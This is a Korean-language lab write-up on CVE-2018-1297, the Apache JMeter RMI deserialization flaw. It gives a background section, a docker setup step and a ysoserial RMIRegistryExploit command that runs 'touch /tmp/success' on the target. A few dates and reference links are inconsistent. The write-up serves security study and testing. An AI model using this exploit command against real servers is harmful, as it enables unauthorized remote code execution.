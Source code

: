 ## CVE-2018-1297



#### Apache Jmeter RMI De-Serialization Command Execution Vulnerability

| **First Reporter** |          **Philippe Mouawad**          |
| :----------------- | :------------------------------------: |
| **Author**         | **SeongHyeon Oh(os5844557@gmail.com)** |
| **Date Created**   |             **2023.10.30**             |
| **Version**        |               **1.0.0**                |



### INDEX

-----

**1. introduce**

**2. Code Audit**

**3. Reproduce**

**4. Reference**



#### 1. Introduce

----

  Apache JMeter은 미국 아파치 소프트웨어 재단(American Apache Software Foundation)이 스트레스 테스트 및 성능 테스트를 위해 Java 언어로 작성한 오픈 소스 소프트웨어 세트입니다.

  CVE-2018-1297은 JMeterEngine 에서 발견되었으며 2021년 01월 23일 Philippe Mouawad에 의해 최초로 보고되었다. 

  이는 분산 테스트만(RMI 기반) 사용하는 경우 jmeter가 보안되지 않은 RMI를 사용하므로 공격자가 JMeterEngine에 액세스하고 승인되지 않은 코드를 보낼 수 있는 취약점이다.

  해당 vulnerability는 JMeter 2.X, 3.X에서 트리거되며, JMeter 4.0에서 patch가 이루어졌다. CVSS v3 score은 9.8이다.

   

#### 2. Reproduce

------

대상 환경: Kali Linux

- `docker-compose up -d`를 실행하여 테스트 환경을 실행함.
- `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.RMIRegistryExploit your-ip 1099 BeanShell1 'touch /tmp/success'`를 실행하여 지정된 페이로드가 포함된 패킷을 대상으로 보낸다.

 

#### 3. Conclusion

----

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/07dc73a8-22f7-4e17-97a8-37f9c3717150)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/41e91eb1-2687-4711-97b7-a181d52da39e)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/50fcd5e9-ec9c-4c1e-838c-531d28b2b89b)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/d926abea-6a26-41b1-b26d-9cf4ca2a88cf)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/84ab9105-8e46-40c4-b444-09c8c1253ec0)

![image](https://github.com/whiteshadowhack/whitehat-school-vulhub/assets/122043815/69c6d149-28f2-4c6c-8764-02ebafa81e1a)



#### 4. Reference

----

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1297

https://nvd.nist.gov/vuln/detail/CVE-2018-1297

https://ubuntu.com/security/CVE-2018-1297

https://www.cvedetails.com/cve/CVE-2018-1297/

https://lists.apache.org/thread/nmnl88g0t1zm5rs6nfbfc7s30j141645https://elixir.bootlin.com/linux/v5.14.15/source/net/tipc/crypto.c

https://bz.apache.org/bugzilla/show_bug.cgi?id=62039


